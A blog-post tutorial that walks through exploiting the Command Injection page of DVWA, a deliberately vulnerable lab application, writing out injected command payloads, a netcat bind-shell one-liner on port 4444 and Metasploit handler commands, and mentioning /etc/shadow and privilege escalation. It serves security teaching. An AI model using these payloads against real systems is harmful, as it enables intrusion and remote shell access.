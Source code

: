 ```yaml
---
layout: post
section-type: post
title: Exploiting Command Injection vulnerabilities
category: tech
tags: [ 'redteam', 'kali', 'dvwa' ]
---
```

Command Injection is the manipulation of a vulnerable software in order to execute arbitrary commands on the host operating system.
Command Injections are possible when a vulnerable application skips the input validation and uses it for executing a shell command on the host operating system.
We'll get our hands on [DVWA]({% post_url 2017-04-02-dvwa-kali %})'s Command Injection section, and we'll open a backdoor on the server using [Metasploit](https://www.metasploit.com/).

Visit the *Command Injection* section of DVWA.

![ci-0](/img/posts/ci/ci-0.png)

The page says that it will ping an IP address for us, so let's see what will do for the IP *127.0.0.1*:

![ci-1](/img/posts/ci/ci-1.png)

Now, let's try to append a list bash command after our input IP address:

<pre><code data-trim class="bash">
127.0.0.1; ls
</code></pre>

![ci-2](/img/posts/ci/ci-2.png)

Sweet, DVWA simply appends our input to the underlying bash command!

Now, let's listen on port *4444* using netcat and redirect all the incoming bytes to a bash shell:

<pre><code data-trim class="bash">
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
</code></pre>

![ci-3](/img/posts/ci/ci-3.png)

As you noticed the page is loading forever, so our backdoor is open and waiting for us... :smile:

Let's start msfconsole and open the shell on the server:

<pre><code data-trim class="bash">
⁠⁠⁠msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
</code></pre>

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the LPORT of bind_tcp, since the default one is *4444*.

As you notice we are the *www-data* user, and that's why we can't read the /etc/shadow file, which contains the user passwords of the operating system.
But, we have all the privileges that *www-data* user has and we can e.g. modify DVWA or escalate to root, by exploiting a local privilege escalation vulnerability.

Happy binding!
